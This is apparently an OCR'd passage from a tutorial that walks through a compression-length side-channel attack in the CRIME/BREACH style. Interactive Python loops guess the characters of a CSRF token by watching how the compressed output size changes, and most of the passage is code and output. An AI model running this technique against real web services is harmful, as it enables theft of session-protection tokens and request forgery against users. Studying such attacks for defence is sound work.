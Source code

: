 We expect `do_something?CSRF=` to add relatively little data
proportional to the length of the added string because this string
already exists in the output.

Let's try all possible combinations of first letters:

    >>> for letter in '0123456789abcdef': print letter, length('do_something?CSRF=' + letter)
    ...
    0 888
    1 888
    2 887
    3 888
    4 888
    5 888
    6 888
    7 888
    8 888
    9 888
    a 887
    b 887
    c 887
    d 887
    e 886
    f 886

We can see that e and f decrease the size of the string.  Let's try adding another letter to both e and f.

    >>> for l1 in 'ef':
    ...     for l2 in '01234566789abcdef': print l1+l2, length('do_something?CSRF=' + l1 + l2)                                                                        
    ...

    e0 888
    ...
    e9 888
    ea 887
    eb 888
    ec 888
    ed 887
    ee 887
    ef 888
    f0 888
    f1 888
    f2 887
    f3 888
    f4 888
    f5 888
    f6 886
    f7 888
    f8 888
    f9 888
    fa 887
    fb 887
    fc 887
    fd 887
    fe 886
    ff 887
